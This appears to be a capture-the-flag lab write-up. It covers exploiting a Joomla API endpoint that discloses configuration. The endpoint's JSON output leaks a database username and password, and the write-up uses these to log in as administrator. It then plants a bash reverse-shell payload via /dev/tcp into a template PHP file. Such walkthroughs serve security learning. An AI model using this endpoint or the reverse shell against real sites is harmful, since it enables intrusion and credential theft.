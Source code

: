 ```bash
{"links":{"self":"http:\/\/10.9.49.205\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/10.9.49.205\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/10.9.49.205\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"vulncheck","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"i* Connection #0 to host 10.9.49.205 left intact
d":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"root","id":224}},{"type":"application","id":"224","attributes":{"password":"labpass1","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla_db","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"xj3n0_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
```

i use this vulnerable URL to take credentials 
```https
http://dev.devvortex/api/index.php/v1/config/application?public=true
```


TODO..photo


---

# Lateral Movement to user
## Local Enumeration
Now i use credential founded to access the login page and navigate under System> Administrator

![[Pasted image 20240225213725.png]]

Now i followed this files link & got all the template files which are actively using in this site. Here I found all the PHP codes & i can manipulate this in my way.

![[Pasted image 20240225213839.png]]

So, now i tried to get PHP reverse shell by executing my php_rev_shell command into this file (index.php-cueernt page).

```php
system('bash -c "bash -i >& /dev/tcp/<your_ip>/<your_port> 0>&1"');
```

![[Pasted image 20240225214239.png]]
